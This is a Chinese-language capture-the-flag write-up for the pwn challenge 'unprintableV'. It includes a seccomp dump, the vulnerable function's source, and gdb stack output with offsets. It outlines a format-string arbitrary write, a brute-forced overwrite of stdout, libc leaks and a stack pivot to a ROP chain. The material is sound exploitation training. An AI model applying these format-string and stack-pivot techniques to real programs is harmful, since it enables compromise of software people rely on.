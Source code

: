 ## unprintableV

防护除了canary全部开启。题目中有一个沙箱函数，我们可以用david942j dl开源的[seccomp-tools](https://github.com/david942j/seccomp-tools)分析一下。

```shell
$ sudo gem install seccomp-tools
liwc@ubuntu:~/pwn/ctfs/D^3CTF/unprintableV$ seccomp-tools dump ./unprintableV
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL

```

禁用了`execve`函数，所以应该使用`open`,`read`,`write`等函数组合读取flag。

题目会leak出栈上的地址。vuln函数中存在明显的格式化字符串漏洞，但是这个格式化字符串在bss段，所以要利用的话要麻烦些。

```c
void __cdecl vuln()
{
  read(0, buf, 0x12CuLL);
  printf(buf, buf);
  --time;
}
```

题目的主要难点是该题中调用`close(1)`关闭了stdout，所以没有回显。这里出题人给了两种方法，比较好理解的一种是把stdout覆盖成stderr，这里由于pie的存在需要爆破低2个字节（成功率1/16）。

```
gef➤  x/32gx buf-0x40
0x555555756020 <stdout@@GLIBC_2.2.5>:	0x00007ffff7dd2620	0x0000000000000000
0x555555756030 <stdin@@GLIBC_2.2.5>:	0x00007ffff7dd18e0	0x0000000000000000
0x555555756040 <stderr@@GLIBC_2.2.5>:	0x00007ffff7dd2540	0x0000000000000000

```

我们在调试时先关掉ASLR，然后nop掉close(1)测一下偏移：

```assembly
gef➤  dereference $rsp 30
0x00007fffffffdc88│+0x0000: 0x0000555555554a14  →   lea rdi, [rip+0x201645]        # 0x555555756060	 ← $rsp # 偏移5
0x00007fffffffdc90│+0x0008: 0x00007fffffffdcb0  →  0x00007fffffffdcd0  →  0x0000555555554b60  →   push r15	 ← $rbp # 偏移6
0x00007fffffffdc98│+0x0010: 0x0000555555554afb  →   mov edx, 0x6 # 偏移7
0x00007fffffffdca0│+0x0018: 0x7fff000000000006 # 偏移8
0x00007fffffffdca8│+0x0020: 0x0000555555756060  →  0x0000000000000000 # 偏移9 leak处的栈地址
0x00007fffffffdcb0│+0x0028: 0x00007fffffffdcd0  →  0x0000555555554b60  →   push r15 # 偏移10
0x00007fffffffdcb8│+0x0030: 0x0000555555554b51  →   mov eax, 0x0
0x00007fffffffdcc0│+0x0038: 0x00007fffffffddb8  →  0x00007fffffffe162  →  "./unprintableV"
0x00007fffffffdcc8│+0x0040: 0x0000000100000000
0x00007fffffffdcd0│+0x0048: 0x0000555555554b60  →   push r15 # main函数saved ebp 偏移14
0x00007fffffffdcd8│+0x0050: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax # main函数返回地址 偏移15
0x00007fffffffdce0│+0x0058: 0x0000000000000001
0x00007fffffffdce8│+0x0060: 0x00007fffffffddb8  →  0x00007fffffffe162  →  "./unprintableV"

```

可以看到偏移6处指向栈上地址，我们将这个地址覆盖为a的地址，`%6$hhn`。然后再`%10$hhn`就可以复写buf的地址为stdout。这里实际上在栈上构造了一个**任意写漏洞**。

爆破成功后，我们就可以从栈中leak libc和程序的加载基址。

之后，应该选择在bss端构造rop链，然后stack pivoting。

采用fake frame手法，利用刚才的任意写漏洞将main函数saved rbp覆盖为fake rbp，再将main返回地址覆盖为leave ret的gadget地址，最终就会将控制流劫持到bss端！ 













